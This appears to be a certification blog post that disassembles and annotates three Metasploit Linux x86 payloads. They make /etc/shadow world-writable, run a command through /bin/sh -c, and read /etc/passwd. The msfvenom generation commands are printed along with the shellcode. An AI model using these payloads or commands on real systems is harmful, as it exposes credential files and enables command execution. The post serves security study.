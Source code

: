 # 5. Shellcode Analysis

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to analyze three payloads from the Metasploit Framework for Linux on the x86 architecture.

## Analysis of linux/x86/chmod

The linux/x86/chmod payload will change the file permissions on a specified file on the local system. With the default arguments, it will give everyone read and write permissions (0666) on the ``/etc/shadow`` file:

```sh
msfvenom -p linux/x86/chmod | ndisasm -b 32 -

00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80C000000        call 0x16
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popa
00000012  646F              fs outsd
00000014  7700              ja 0x16
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
```

The first part of the shellcode sets up the call to the [chmod](https://man7.org/linux/man-pages/man2/chmod.2.html) system call:

```nasm
; int chmod(const char *pathname, mode_t mode): syscall 0xf
;   chmod("/etc/shadow", 0666)
00000000  99                cdq              ; edx = 0x00000000 if eax >= 0, edx = 0xFFFFFFFF if eax < 0
00000001  6A0F              push byte +0xf
00000003  58                pop eax          ; eax = 15
00000004  52                push edx         ; push 0x00000000/0xFFFFFFFF (?)
00000005  E80C000000        call 0x16        ; push address of "/etc/shadow"
0000000A  "/etc/shadow"
00000016  5B                pop ebx          ; ebx = "/etc/shadow"
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx          ; ecx = 0666
0000001D  CD80              int 0x80         ; perform syscall
```

The second part uses the [exit](https://man7.org/linux/man-pages/man2/exit.2.html) system call to terminate the process:

```nasm
; void _exit(int status)
;   _exit(whatever)
0000001F  6A01              push byte +0x1
00000021  58                pop eax          ; eax = 1
00000022  CD80              int 0x80         ; perform syscall
```

## Analysis of linux/x86/exec

The linux/x86/exec payload will execute a specified command string. For this analysis, the payload is generated with the command string "ls":

```sh
msfvenom -p linux/x86/exec CMD=ls | ndisasm -b 32 -

00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  99                cdq
00000004  52                push edx
00000005  66682D63          push word 0x632d
00000009  89E7              mov edi,esp
0000000B  682F736800        push dword 0x68732f
00000010  682F62696E        push dword 0x6e69622f
00000015  89E3              mov ebx,esp
00000017  52                push edx
00000018  E803000000        call 0x20
0000001D  6C                insb
0000001E  7300              jnc 0x20
00000020  57                push edi
00000021  53                push ebx
00000022  89E1              mov ecx,esp
00000024  CD80              int 0x80
```

The shellcode uses the [execve](https://man7.org/linux/man-pages/man2/execve.2.html) system call to execute a command with ``/bin/sh -c [COMMAND]``:

```nasm
; int execve(const char *pathname, char *const argv[], char *const envp[]): syscall 0xb
;   execve("/bin/sh", ["/bin/sh", "-c", "ls", 0], 0)
00000000  6A0B              push byte +0xb
00000002  58                pop eax               ; eax = 11
00000003  99                cdq                   ; edx = 0
00000004  52                push edx              ; push 0 (string null-terminator)
00000005  66682D63          push word 0x632d      ; push "-c" reversed
00000009  89E7              mov edi,esp           ; edi = "-c"
0000000B  682F736800        push dword 0x68732f   ; push "/sh" reversed
00000010  682F62696E        push dword 0x6e69622f ; push "/bin" reversed
00000015  89E3              mov ebx,esp           ; ebx = "/bin/sh"
00000017  52                push edx              ; push 0
00000018  E803000000        call 0x20             ; push address of "ls"
0000001D  "ls"
00000020  57                push edi              ; push address of "-c"
00000021  53                push ebx              ; push address of "/bin/sh"
00000022  89E1              mov ecx,esp           ; ecx = ["/bin/sh", "-c", "ls", 0]
00000024  CD80              int 0x80              ; perform syscall
```

## Analysis of linux/x86/read_file

...

```sh
msfvenom -p linux/x86/read_file PATH=/etc/passwd | ndisasm -b 32 -

00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7061              jo 0xa5
00000044  7373              jnc 0xb9
00000046  7764              ja 0xac
00000048  00                db 0x00
```

...
